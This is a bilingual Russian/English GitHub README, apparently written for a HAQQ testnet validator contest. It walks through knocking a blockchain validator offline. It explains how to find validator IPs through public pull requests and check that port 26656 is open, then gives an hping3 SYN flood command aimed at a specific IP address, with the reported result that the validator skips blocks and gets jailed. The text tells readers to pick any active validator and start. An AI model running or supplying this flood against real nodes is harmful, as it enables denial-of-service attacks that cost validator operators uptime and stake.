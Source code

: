# To-Jail-Validator-in-HAQQ-Network
## Test of strength!
Ru. Логика действий - отправляем короткие TCP пакеты данных на p2p порт.
Чтоб узнать IP валидатора я воспользовалась поиском по пул реквестам в репозитории Github [validators-contest](https://github.com/haqq-network/validators-contest)<br/>
En. Action logic - we send short TCP data packets to the p2p port.
To find out the IP of the validator, I used the pull request search in the Github repository [validators-contest](https://github.com/haqq-network/validators-contest)<br/>


Ru. Затем иду на сайт [yougetsignal](https://www.yougetsignal.com/tools/open-ports/) , проверить открыт ли порт 26656.<br/>
Отправляем с помощью генератора пакетов **hping3**<br/>
Устанавливаем **hping3** командой **apt install hping3**<br/>
Команда запуска: **`hping3 -S -p 26656 -i u10 -d 1024 --flood 185.182.186.35`**<br/>
Выбираем активного валидатора,у которого виден IP адрес и открыт порт 26656  и можно начинать.<br/>
En. Then I go to the site [yougetsignal](https://www.yougetsignal.com/tools/open-ports/) , check if port 26656 is open.<br/>
Sending using the packet generator **hping3**<br/>
Install **hping3** with **apt install hping3**<br/>
Run command: **`hping3 -S -p 26656 -i u10 -d 1024 --flood 185.182.186.35`**<br/>
Select an active validator that has an IP address visible and port 26656 open, and you can start.<br/>**Смотрим, что Валидатор работает и активен**<br/>
![pic1](https://github.com/Takhminaqa/To-Jail-Validator-in-HAQQ-Network/blob/main/asset/1pic.png)

Запускаем команду, и видим, через несколько минут Валидатор начинает пропускать. 
We run the command, and we see that after a few minutes the Validator starts to skip.<br/>
![pic2](https://github.com/Takhminaqa/To-Jail-Validator-in-HAQQ-Network/blob/main/asset/2pics.png)

Прерываем команду 3 раза. 
We interrupt the command 3 times.![pic3](https://github.com/Takhminaqa/To-Jail-Validator-in-HAQQ-Network/blob/main/asset/3pics.png)
![pic4](https://github.com/Takhminaqa/To-Jail-Validator-in-HAQQ-Network/blob/main/asset/4pics.png)
![pic5](https://github.com/Takhminaqa/To-Jail-Validator-in-HAQQ-Network/blob/main/asset/5pics.png)

RU. Подытожим интересное задание. Если не прерывать команду, через несколько минут Валидатор начинает пропускать блоки и в итоге оказывается в тюрьме. По скринам понятно, что пропуск блоков был инициирован мной т.е извне.<br/>
En. To sum up this  interesting task. If you don't interrupt the team, after a few minutes the Validator starts skipping blocks and ends up in jail. From the screenshots, it is clear that the skipping of blocks was initiated by me, i.e. from the outside.
